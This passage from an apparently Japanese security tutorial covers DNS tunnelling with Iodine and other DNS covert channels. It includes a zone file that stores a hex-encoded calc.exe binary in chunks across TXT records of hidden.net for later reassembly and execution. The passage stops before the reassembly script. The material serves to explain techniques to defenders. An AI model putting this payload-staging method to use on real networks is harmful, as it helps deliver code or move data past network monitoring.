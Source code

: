 ## Domain name

DNS Tunnelを構築するためのフェイクドメインは自由に指定できます。
AWSやAzureのドメインは長くなることが多いためフェイクドメインの候補になります。
次の画像は一見すると正規のドメインのDNSクエリに見えますがIodineによるDNS Tunnelが構築されています。

![](/images/iodine/wireshark10.png)


# その他のCovert Channel

Iodineのような専用のソフトウェアを利用しなくても容易にCovert Channelを構築することが出来ます。
中でもDNSのTXTレコードは比較的大きなデータを埋め込めて、多くの組織で通信が許可されているため、よく使われる手法です。

次の例ではcalc.exeのバイナリをHEXエンコードして、hidden.netドメインのTXTレコードに分割して書き込んでいます。
calc.exeは圧縮しても11KBありますが、一つのTXTレコードに1024byteのデータを書き込めるので11レコードあれば全体を格納できます。

```
@       IN      SOA     hidden.net.     root.hidden.net. (
        2019011901
        10800
        3600
        604800
        86400 )
;
        IN      NS      dns.hidden.net.
;
hidden.net.    IN  TXT  "12"  ; record count
0.hidden.net.  IN  TXT  "789ced3d0b7413d7954fb60cb6b1b1686d62c227b263769d8f6d192159b22d23c796b14f31086c6c93406c218d2d51fd3a9a31360ba91de134ea40c266d313dad39c853ab46437a74db7d9f069b62b1312431a284dd386b6d9c6bb353d624d13daa6096928da7b6724ebe391200da561a3c7b9f3debbefbefb7bf7dd37a3996"
1.hidden.net.  IN  TXT  "30d9cdacddc4b8e836c644331486969998881dae2c5c4d84212e42936a5201ff8412ce11188a4500399f0198153b960bb011081430a6881b8bdef7f1c518d2cbd0dea940ba87e64a1fbe2be3cbdf4f9f9311a248237746abdd6973b69a6c4e523cc392629226cd7a25236bae6989fe796345d11d434726ee20ad3633edf2b87"
2.hidden.net.  IN  TXT  "fb9ae15ae86bcef175c97c03f953b3bc720208ce2d1f798f591c749704d992ceb6b541369f3bbd2ec8e604d9cc600126aee0cfb8d6cbddf72b4fdd17d809ccb8739b8e959057630a177c9157d17ba12ba26407a792427bb7e170e7ee1d87ad85d8eebf78c04aa061dd93af27c603070e28dff3a9e480f0a94ae01a2cc804812"
(snip)
11.hidden.net.  IN  TXT  "adf6f7daa0766ef5fcea25d5cbaaababebab77573f51fd64f5b7aadfaa3e57fd4ef51fabaf54a7d72caca9ab79ba66ac66bce64ccd1b352b6bfb6bcfd6fe57ed3bb5b9ba22dddfebded20574bfd565d76daeebab1ba9fb46dd5b7597ebc88a452be42b6a57e857e0678239e052297e38a810da7b13fc0db9bf75f93f0b95b20"
```

このTXTレコードからバイナリを再構築して実行するスクリプトの例は次の通りです。
特別なツールは使われていないのでjavascriptやpowershellで書くことも出来るはずです。
